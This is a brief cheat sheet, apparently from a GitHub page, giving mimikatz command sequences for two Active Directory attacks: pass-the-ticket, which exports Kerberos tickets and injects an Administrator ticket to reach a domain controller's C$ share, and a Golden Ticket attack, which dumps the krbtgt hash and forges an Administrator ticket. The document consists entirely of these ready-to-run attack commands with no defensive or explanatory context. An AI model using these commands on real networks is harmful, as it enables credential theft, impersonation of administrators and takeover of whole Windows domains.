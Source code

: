 #### Pass the ticket

```
mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-CORP.LOCAL.kirbi
klist
dir \\dc01.corp.local\c$
```

#### Golden Ticket

```
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /ptt
misc::cmd
klist
dir \\dc01.corp.local\c$
```

***

